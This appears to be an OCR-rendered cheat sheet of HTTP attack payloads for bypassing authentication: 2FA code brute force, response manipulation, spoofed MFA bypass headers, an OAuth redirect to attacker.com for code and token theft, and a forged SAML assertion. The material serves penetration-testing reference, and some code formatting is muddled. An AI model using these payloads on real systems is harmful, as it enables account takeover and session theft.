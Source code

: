 
## Multi-Factor Authentication Bypass

### Code Brute Force
```http
POST /verify-2fa HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

code=0000
```

### Response Manipulation
```
http
POST /verify-2fa HTTP/1.1
Host: target.com
Content-Type: application/json

{"status":"success","verified":true}
```

### MFA Bypass Header
```
http
GET /dashboard HTTP/1.1
Host: target.com
X-Forwarded-For: internal_ip
X-MFA-Bypass: true
```

---

## OAuth/SSO Vulnerabilities

### Open Redirect
```
http
GET /oauth/authorize?response_type=code&client_id=client&redirect_uri=https://attacker.com HTTP/1.1
Host: target.com
```

### Token Theft
```http
GET /callback#access_token=ATTACKER_TOKEN&token_type=Bearer HTTP/1.1
Host: attacker.com
```

### IdP Confusion
```http
POST /saml/acs HTTP/1.1
Host: target.com
Content-Type: application/xml

<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_[RANDOM]" IssueInstant="[TIME]" Version="2.0">
  <saml:Issuer>https://attacker.com</saml:Issuer>
  [...malicious claims...]
</saml:Assertion>
```

---